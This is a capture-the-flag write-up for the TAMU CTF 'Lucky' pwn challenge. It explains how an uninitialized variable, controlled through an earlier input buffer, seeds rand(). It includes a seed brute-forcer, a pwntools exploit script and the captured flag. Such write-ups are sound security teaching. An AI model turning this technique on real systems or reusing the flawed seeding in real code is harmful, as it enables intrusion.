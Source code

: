 ```yaml
---
layout: post
title:  "[TAMU ctf] Lucky"
date:   "2022-04-19"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

In all of the challenges of this ctf the authors provide us also the sourcecode of the binary.
Here is the source code for this challenge

```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```

The probram will print the flag only if the rand will output some values.

The interesting part in this source code is in the function seed used to obtain a seed for the srand function.

```c
int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}
```

this function return the value of a variable that is not initialized and this could lead to undetermined behaviour of the program. 
The problem is that as we can see from gdb we can control what the lol variable contain. 

```c
void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}
```

The welcome function ask us 16 bytes that will be stored in a buffer and this if fine. The problem is that with this input we can control what the lol variable will contain.

Here I send in the buffer the string "ABCDEFGHIJKLMNO" (15bytes because fgets will read 15 bytes and put null char at the end of the buffer)
<img src="/assets/posts_images/lucky_tamu2022/l1.png" title="" alt="" width="473">

In the seed finction we can see that the variable lol will contain the value 0x4f4e4d that is 'ONM'so we can control the seed value. 
<img src="/assets/posts_images/lucky_tamu2022/l2.png" title="" alt="" width="473">

Now we need to find a seed value that will return 306291429, 442612432, 110107425 for the first three value. I wrote a little program in c in order to find this value.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    for(unsigned int i = 0; i<0xffffff;i++){
    	srand(i);
    	if(!(rand() == 306291429))continue;
    	if(!(rand() == 442612432))continue;
    	if(!(rand() == 110107425))continue;
	printf("%u", i);
    }
}
# output 5649426 == 0x563412
```

With this value found we have all in order to win this challenge.

This is the script

```python
from pwn import *

p = remote("tamuctf.com", 443, ssl=True, sni="lucky")

context.binary = elf = ELF('./lucky')
#p = elf.process()
#gdb.attach(p)

pyl = b'ABCDEFGHIJKL\x12\x34\x56'
p.sendlineafter(b'Enter your name: ', pyl)
p.interactive()

```

And this is the output:

```text
eurus@node-01-00:~/Scaricati/lucky$ python3 solver-template.py 
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode

Welcome, ABCDEFGHIJKL\x12V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```















